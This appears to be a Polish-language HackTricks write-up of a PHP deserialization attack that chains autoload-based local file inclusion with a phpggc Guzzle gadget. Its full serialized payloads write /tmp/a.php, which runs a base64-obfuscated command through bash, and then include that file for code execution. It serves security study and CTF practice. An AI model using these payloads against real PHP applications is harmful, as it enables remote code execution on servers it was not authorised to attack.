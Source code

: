 # PHP - Deserializacja + Autoload Klasy

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

Najpierw powinieneś sprawdzić, czym są [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserializacja + spl\_autoload\_register + LFI/Gadget

Jesteśmy w sytuacji, w której znaleźliśmy **deserializację PHP w aplikacji webowej** bez **żadnej** biblioteki podatnej na gadżety w **`phpggc`**. Jednak w tym samym kontenerze była **inna aplikacja webowa z podatnymi bibliotekami**. Dlatego celem było **załadowanie loadera composera z innej aplikacji webowej** i wykorzystanie go do **załadowania gadżetu, który wykorzysta tę bibliotekę z gadżetem** z aplikacji webowej podatnej na deserializację.

Kroki:

* Znalazłeś **deserializację** i **nie ma żadnego gadżetu** w kodzie bieżącej aplikacji
* Możesz wykorzystać funkcję **`spl_autoload_register`** jak poniżej, aby **załadować dowolny lokalny plik z rozszerzeniem `.php`**
* W tym celu używasz deserializacji, w której nazwa klasy będzie w **`$name`**. **Nie możesz używać "/" ani "."** w nazwie klasy w zserializowanym obiekcie, ale **kod** **zamienia** **podkreślenia** ("\_") **na ukośniki** ("/"). Tak więc nazwa klasy taka jak `tmp_passwd` zostanie przekształcona w `/tmp/passwd.php`, a kod spróbuje ją załadować.\
Przykład **gadżetu** to: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Jeśli masz **upload plików** i możesz przesłać plik z **rozszerzeniem `.php`**, możesz **bezpośrednio nadużyć tej funkcjonalności** i uzyskać już RCE.
{% endhint %}

W moim przypadku nie miałem nic takiego, ale w **tym samym kontenerze** była inna strona internetowa kompozytora z **biblioteką podatną na gadżet `phpggc`**.

* Aby załadować tę inną bibliotekę, najpierw musisz **załadować loader kompozytora tej innej aplikacji** (ponieważ loader bieżącej aplikacji nie uzyska dostępu do bibliotek innej). **Znając ścieżkę aplikacji**, możesz to osiągnąć bardzo łatwo za pomocą: **`O:28:"www_frontend_vendor_autoload":0:{}`** (W moim przypadku loader kompozytora znajdował się w `/www/frontend/vendor/autoload.php`)
* Teraz możesz **załadować** loader kompozytora **innej aplikacji**, więc nadszedł czas, aby **`wygenerować ładunek phpgcc`** do użycia. W moim przypadku użyłem **`Guzzle/FW1`**, co pozwoliło mi **zapisać dowolny plik w systemie plików**.
* UWAGA: **Wygenerowany gadżet nie działał**, aby działał, **zmodyfikowałem** ten ładunek **`chain.php`** z phpggc i ustawiłem **wszystkie atrybuty** klas **z prywatnych na publiczne**. W przeciwnym razie, po deserializacji ciągu, atrybuty utworzonych obiektów nie miały żadnych wartości.
* Teraz mamy sposób na **załadowanie loadera kompozytora innej aplikacji** i mamy **ładunek phpggc, który działa**, ale musimy **zrobić to w TEJ SAMEJ ŻĄDANIE, aby loader został załadowany, gdy gadżet jest używany**. W tym celu wysłałem zserializowaną tablicę z oboma obiektami, jak:
* Możesz zobaczyć **najpierw ładowanie loadera, a potem ładunek**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Teraz możemy **utworzyć i zapisać plik**, jednak użytkownik **nie mógł zapisać w żadnym folderze wewnątrz serwera webowego**. Jak widać w ładunku, PHP wywołuje **`system`** z pewnym **base64**, który jest tworzony w **`/tmp/a.php`**. Następnie możemy **ponownie użyć pierwszego typu ładunku**, którego użyliśmy jako LFI, aby załadować loader composera innej aplikacji webowej **do załadowania wygenerowanego pliku `/tmp/a.php`**. Po prostu dodaj go do gadżetu deserializacji:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Podsumowanie ładunku**

* **Załaduj autoload composera** innej aplikacji webowej w tym samym kontenerze
* **Załaduj gadżet phpggc** do wykorzystania biblioteki z innej aplikacji webowej (początkowa aplikacja webowa podatna na deserializację nie miała żadnych gadżetów w swoich bibliotekach)
* Gadżet **utworzy plik z ładunkiem PHP** w /tmp/a.php z złośliwymi poleceniami (użytkownik aplikacji webowej nie może pisać w żadnym folderze żadnej aplikacji webowej)
* Ostatnia część naszego ładunku użyje **załaduj wygenerowany plik php**, który wykona polecenia

Musiałem **wywołać tę deserializację dwa razy**. W moich testach, za pierwszym razem plik `/tmp/a.php` został utworzony, ale nie załadowany, a za drugim razem został poprawnie załadowany.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
